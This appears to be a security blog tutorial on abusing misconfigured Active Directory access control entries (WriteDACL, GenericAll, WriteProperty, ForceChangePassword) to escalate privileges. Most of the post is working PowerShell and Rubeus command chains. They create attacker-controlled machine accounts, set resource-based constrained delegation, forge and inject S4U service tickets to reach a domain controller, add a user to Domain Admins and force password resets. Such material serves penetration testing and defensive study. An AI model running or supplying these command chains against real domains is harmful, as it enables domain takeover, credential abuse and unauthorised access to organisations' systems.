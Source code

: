 ```yaml
---
title: 'Abusing AD Access Controls'
layout: post
tag: [tutorial, AD]
excerpt: >-
  Abusing Windows Access Control List and Access Control Entries
description: >-
  Abusing Windows Access Control List and Access Control Entries
image: '/images/posts/abusing-ace/abusing-acl.png'
thumb_image: '/images/posts/abusing-ace/abusing-acl.png'
---
```


# Introduction

Access privileges for resources in Active Directory Domain Services are usually granted through the use of an Access Control Entry (ACE). 

Access Control List entries describe the allowed and denied permissions for a principal in Active Directory against a securable object (user, group, computer, container, organization unit (OU), GPO etc..) DACLs (Active Directory Discretionary Access Control Lists) are lists made of ACEs (Access Control Entries) that identify the users and groups that are allowed or denied access to an object. When we have misconfigured, ACEs can be abused to operate lateral movement or privilege escalation within an AD domain. 

An example of ACEs for the “Domain Admins” securable object can be seen here:

![](/images/posts/abusing-ace/abusing-active-directory-aclace.png)

Active Directory offers a variety of permission types to set up an ACE.  
From an attacker’s point of view, the following permission types are particularly interesting:

- **WriteDACL** – modify the object’s ACEs and give an attacker complete control right over the object 
- **GenericAll** – full rights to the object (add users to a group or reset user’s password) 
- **GenericWrite** – update object’s attributes (i.e. logon script) 
- **WriteOwner** – change object owner to attacker controlled user to take over the object 
- **AllExtendedRights** – the ability to add a user to a group or reset a password 
- **ForceChangePassword** – the ability to change the user’s password 

## WriteDacl

The writeDACL permissions allow an identity to fully control rights over the designated object. 
This means they can modify access control lists (ACL) to gain higher privileges, like becoming a domain administrator or gaining specific user rights.

It’s important to be aware of the risks, especially if someone can modify the ACL of an Active Directory (AD) object and assign permissions that allow them to read and write specific attributes, such as changing an account name or resetting a password.

Abusing writeDACL to a computer object can be used to gain the GenericAll privilege. 
It’s crucial to authenticate to the Domain Controller when running a process as a user without writeDACL rights.

Additionally, using the Powerview module Add-DomainObjectAcl requires creating a PSCredential object first.

```powershell
SecPassword = ConvertTo-SecureString 'Password@1' -AsPlainText -Force 
$Cred = New-Object System.Management.Automation.PSCredential('first.local\\admin.user', $SecPassword) 
Add-DomainObjectAcl -Credential $Cred -TargetIdentity FIRST-DC  -PrincipalIdentity writedacldc.user -Rights All
```

![](/images/posts/abusing-ace/Pasted-image-20231211174126.png)

Once we have granted this privilege, we can execute a resource based constrained delegation attack. 
First, if an attacker does not control an account with an SPN set, 
Powermad can be used to add a new attacker-controlled computer account: 

```powershell
New-MachineAccount -MachineAccount attacker system -Password $(ConvertTo-SecureString 'Password@1' -AsPlainText -Force)
```

![](/images/posts/abusing-ace/Pasted-image-20231211174134.png)

PowerView can be used to retrieve then the security identifier (SID) of the newly created computer account: 

```powershell
$ComputerSid = Get-DomainComputer attacker system -Properties objectsid | Select -Expand objectsid
```

We now need to build a generic ACE with the attacker-added computer SID as the principal, and get the binary bytes for the new DACL/ACE: 

```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))" 
$SDBytes = New-Object byte[] ($SD.BinaryLength) 
$SD.GetBinaryForm($SDBytes, 0)
```

Next, we need to set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the comptuer account we’re taking over, again using PowerView in this case: 

```powershell
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{‘msds-allowedtoactonbehalfofotheridentity’=$SDBytes}
```

We can then use Rubeus to hash the plaintext password into its RC4_HMAC form 

```powershell
Rubeus.exe hash /password:Password@1
```

![](/images/posts/abusing-ace/rubeus-exe-hash.png)

And the _s4u_ module to get a service ticket for the service name we want to pretend to be an admin for. 
This ticket is injected into memory and in this case grants us access to the file system of the FIRST-DC: 

```powershell
Rubeus.exe s4u /user:attackersystem$ /rc4:64FBAE31CC352FC26AF97CBDEF151E03 /impersonateuser:admin /msdsspn:cifs/FIRST-DC.first.local /ptt
```

![](/images/posts/abusing-ace/rubeus-exe-hash-1.png)

![](/images/posts/abusing-ace/rubeus-exe-hash_.png)

![](/images/posts/abusing-ace/rubeus-exe-s4u.png)

## GenericAll

The GenericAll permission provides write access to all properties (add users to a group or reset the user’s password).
 _The right to read permissions on this object, write all the properties on this object, and perform all validated writes to this object._ 

Example: If the attacker has GenericAll over any target, then he doesn’t have to know the target user’s password. 
He can execute a force password reset using **Set-DomainUserPassword** to a known value.

Using powerview, we will check if our user has GenericAll rights on the Domain Controller (First-DC) 

```powershell
Get-ObjectAcl -SamAccountName first-dc | ?{$_.ActiveDirectoryRights -eq "GenericAll"} 
```

![](/images/posts/abusing-ace/get-objectacl-samaccountname-first-dc.png)

We can see that our user has the GenericAllrights, effectively enabling the user to take over the DC: 
Generic write to a computer object can be used to perform a resource based constrained delegation attack. 
We will use Powermad to add a new attacker-controlled computer account 

```powershell
New-MachineAccount -MachineAccount genallcomp -Password $(ConvertTo-SecureString 'Password!' -AsPlainText -Force)
```

PowerView can be used to retrieve then the security identifier (SID) of the newly created computer account: 

```powershell
$ComputerSid = Get-DomainComputer genallcomp -Properties objectsid | Select -Expand objectsid 
```

We now need to build a generic ACE with the attacker-added computer SID as the principal, and get the binary bytes for the new DACL/ACE: 

```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))" 
$SDBytes = New-Object byte[] ($SD.BinaryLength) 
$SD.GetBinaryForm($SDBytes, 0)
```

Next, we need to set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the computer account we’re taking over, again using PowerView in this case: 

```powershell
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{‘msds-allowedtoactonbehalfofotheridentity’=$SDBytes} 

Rubeus.exe hash /password:Password!
```

![](/images/posts/abusing-ace/rubeus-exe-hash-password.png)

Finally, we can use Rubeus’ _s4u_ module to get a service ticket for the service name we want to “pretend” to be “admin” for. 
This ticket is injected in memory, and in this case grants us access to the file system of the FIRST-DC: 

```powershell
Rubeus.exe s4u /user:genallcomp$ /rc4:FBDCD5041C96DDBD82224270B57F11FC /impersonateuser:admin /msdsspn:cifs/FIRST-DC.first.local /ptt 
```

![](/images/posts/abusing-ace/rubeus-exe-s4u-user-genallcomp.png)

![](/images/posts/abusing-ace/rubeus-exe-s4u-user-genallcomp_.png)

![](/images/posts/abusing-ace/genericwrite.png)


GenericAll / GenericWrite / Write on Computer 

If you have rights you can perform a resource based constrained delegation 

## WriteProperty (Self-Membership)

If our user has WriteProperty right on All objects for the Domain Admin group: 

We can again add ourselves to the Domain Admins group and escalate privileges: 

```powershell
net user gpowrite.user /domain; Add-NetGroupUser -UserName gpowrite.user -GroupName "domain admins" -Domain "first.local"; net user gpowrite.user /domain 
```

![](/images/posts/abusing-ace/gpowrite-user.png)


## ForceChangePassword

If we have ExtendedRight on User-Force-Change-Password object type, we can reset the user’s password without knowing their current password: 

Using PowerView: 

```powershell
Set-DomainUserPassword -Identity gpowrite.user -Verbose 
```

![](/images/posts/abusing-ace/forcechangepassword.png)
